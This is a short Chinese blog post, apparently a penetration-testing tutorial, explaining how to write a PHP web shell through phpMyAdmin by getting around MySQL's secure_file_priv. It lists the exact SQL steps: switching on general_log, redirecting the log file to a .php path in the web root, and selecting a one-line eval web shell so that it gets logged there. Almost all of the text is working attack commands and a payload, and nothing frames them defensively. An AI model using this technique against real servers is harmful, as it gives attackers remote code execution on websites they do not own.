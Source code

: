 # phpMyAdmin突破secure-file-priv写WebShell





1.查看`secure_file_priv`值
```bash
show global variables like '%secure_file_priv%';
# show global variables like '%secure%';

# 此开关默认为NULL：即不允许导入导出
# 没有具体值时：表示不对mysqld 的导入|导出做限制
# 值为/tmp/ ：表示限制mysqld 的导入|导出只能发生在/tmp/目录下
```

2.查询操作日志存放路径
```bash
show variables like 'general_log%';

# 操作日志默认也是关闭的
```

3.首先打开操作日志记录
```bash
set global general_log = 'ON';
```

4.设置操作记录日志路径(`前提是获取到了绝对路径`)
```bash
# set global general_log_file='路径地址';
# 选择网站的目录里面
set global general_log_file='D:\\phpstudy\\PHPTutorial\\WWW\\xx.php'
```

5.执行sql语句，mysql会将执行的语句内容记录到我们指定的文件中，就可以getshell了
```bash
select '<?php @eval($_POST[1]);?>';
```

6.访问webshell，进行后续操作














---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://geoer.cn/phpmyadmin%E7%AA%81%E7%A0%B4secure-file-priv%E5%86%99webshell/  

